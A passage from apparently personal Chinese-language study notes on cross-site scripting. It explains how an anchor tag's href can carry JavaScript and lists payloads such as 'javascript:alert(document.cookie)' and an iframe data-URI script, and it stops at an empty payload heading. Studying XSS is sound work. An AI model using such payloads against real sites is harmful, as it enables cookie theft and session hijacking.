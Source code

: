### xss之href输出

​![image](assets/image-20240912231718-5fx1one.png)​

```bash
W3School中对<a>标签的href属性有以下描述（引用摘自HTML <a> 标签的 href 属性）：

<a> 标签的 href 属性用于指定超链接目标的 URL。

href 属性的值可以是任何有效文档的相对或绝对 URL，包括<span data-type="text" style="color: var(--b3-font-color9);">片段标识符</span>和 <span data-type="text" style="color: var(--b3-font-color9);">JavaScript 代码段</span>。如果用户选择了 <a> 标签中的内容，那么浏览器会尝试检索并显示 href 属性指定的 URL 所表示的文档，或者执行<span data-type="text" style="color: var(--b3-font-color9);"> JavaScript 表达式</span>、<span data-type="text" style="color: var(--b3-font-color9);">方法和函数的列表</span>。
```

payload：

```bash
javascript:alert(document.cookie)
```

​![image](assets/image-20240912231952-sqksar5.png)​

## XSS与标签

### 伪协议

#### data:

payload：

```bash
<iframe src\="data:text/html,<script>alert('XSS');</script>" " ><iframe>
```

#### javascript:

payload：

